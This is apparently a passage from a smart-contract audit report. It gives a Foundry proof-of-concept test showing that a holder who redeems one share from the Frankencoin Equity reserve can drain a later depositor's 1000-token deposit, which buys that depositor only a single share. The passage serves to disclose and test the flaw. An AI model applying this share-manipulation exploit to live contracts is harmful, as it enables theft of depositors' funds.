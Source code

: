 Note that the attack described above is possbile as long as an attacker has sufficient shares to decrease the total share amount below `1000e18`.

The following Foundry test demonstrates the scenario above:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../contracts/Frankencoin.sol";

contract ShareManipulation_POC is Test {
    Frankencoin zchf;
    Equity reserve;

    address ALICE = address(0x1);
    address BOB = address(0x2);

    function setUp() public {
        // Setup contracts
        zchf = new Frankencoin(10 days);
        reserve = Equity(address(zchf.reserve()));

        // Give both ALICE and BOB 1000 Frankencoin
        zchf.suggestMinter(address(this), 0, 0, "");
        zchf.mint(ALICE, 1000 ether);
        zchf.mint(BOB, 1000 ether);
    }

    function test_NextDepositorGetsOneShare() public {
        // ALICE deposits 1000 Frankencoin, getting 1000e18 shares
        vm.prank(ALICE);
        zchf.transferAndCall(address(reserve), 1000 ether, "");

        // Time passes until ALICE can redeem
        vm.roll(block.number + 90 * 7200);

        // ALICE redeems 1 share, leaving 1000e18 - 1 shares remaining
        vm.prank(ALICE);
        reserve.redeem(ALICE, 1);

        // BOB deposits 1000 Frankencoin, but gets only 1 share
        vm.prank(BOB);
        zchf.transferAndCall(address(reserve), 1000 ether, "");
        assertEq(reserve.balanceOf(BOB), 1);

        // All of BOB's deposited Frankencoin accrue to ALICE
        vm.startPrank(ALICE);
        reserve.redeem(ALICE, reserve.balanceOf(ALICE) - 1e18);
        assertGt(zchf.balanceOf(ALICE), 1999 ether);
    }
}
```
